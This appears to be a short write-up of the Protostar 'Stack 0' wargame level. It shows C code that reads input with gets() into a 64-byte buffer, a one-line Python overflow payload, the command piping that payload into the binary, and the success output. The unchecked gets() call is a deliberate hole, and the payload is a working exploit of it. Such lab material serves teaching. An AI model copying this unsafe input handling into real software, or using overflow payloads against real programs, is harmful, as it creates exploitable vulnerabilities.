 # Stack 0

Stack 0 source
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```


Here is the code for cracking the program

Exploit python 3 code (stack0.py)
```python3
print("A"*65)
```

Terminal command

```shell
python3 stack0.py | /opt/protostar/bin/stack0
```

Output

```shell
you have changed the 'modified' variable
```
This is a simple buffer overflow that overwrites an integer variable.

